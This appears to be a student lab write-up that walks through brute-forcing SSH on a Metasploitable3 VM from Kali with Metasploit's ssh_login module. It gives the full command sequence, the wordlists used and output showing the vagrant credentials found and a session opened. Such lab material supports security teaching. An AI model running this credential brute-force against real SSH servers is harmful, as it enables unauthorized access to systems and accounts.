







# Task 1.1 – SSH Brute-force Using Metasploit

## Environment Setup
- **Victim VM**: Metasploitable3
- **Attacker VM**: Kali Linux
- **Target Service**: SSH
- **Target IP**: 192.168.56.6

## Steps Performed

### 1. Verified SSH is running
```bash
service ssh status
```


### 2. Created users and passwords files
```bash
nano users.txt
nano pass.txt
```
Files Content:
- users.txt: Shahad, Norah, vagrant, Jude, Jouri, Abood, Hamood, Noor, Rawan, Ali, Ooody
- pass.txt: Shahad, Norah, vagrant, Jude, Jouri, Abood, Hamood, Noor, Rawan, Ali, Ooody



### 3. Launched Metasploit Framework
```bash
msfconsole
```


### 4. Searched for SSH modules
```bash
search ssh
```


### 5. Selected ssh_login module
```bash
use 0 auxiliary/scanner/ssh/ssh_login
show options
```


### 6. Configured and ran brute-force attack
```bash
set USER_FILE users.txt
set PASS_FILE pass.txt
set RHOSTS 192.168.56.6
run
```


### Result:
Valid credentials found:
```
Success: 'vagrant':'vagrant'
Session 1 opened
```

